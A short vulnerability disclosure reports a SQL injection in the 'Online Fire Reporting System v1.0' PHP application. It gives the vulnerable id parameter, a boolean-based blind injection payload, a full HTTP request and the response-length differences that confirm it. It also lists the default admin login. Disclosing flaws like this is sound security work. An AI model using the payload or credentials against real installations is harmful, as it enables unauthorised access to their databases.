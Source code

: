 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/?page=requests/view_request&id=

Vulnerability location: /ofrs/admin/?page=requests/view_request&id=, id

Current database name: ofrs_db,length is 7

[+] Payload: /ofrs/admin/?page=requests/view_request&id=6%27%20or%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /ofrs/admin/?page=requests/view_request&id=6%27%20or%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 30064
![image](https://user-images.githubusercontent.com/54017627/170817278-a3ef7e08-a4da-4a12-ab1f-2fde67b9f44c.png)

![image](https://user-images.githubusercontent.com/54017627/170817288-6cb5b843-1e51-4e42-ab72-18c7584bac00.png)

When length (database ()) = 7, Content-Length: 36340
![image](https://user-images.githubusercontent.com/54017627/170817272-33a433f6-6c0c-47b2-9c02-5eeb9d8f3252.png)

![image](https://user-images.githubusercontent.com/54017627/170817225-915cac8b-a7f1-4f31-9f5c-602ee719fd42.png)
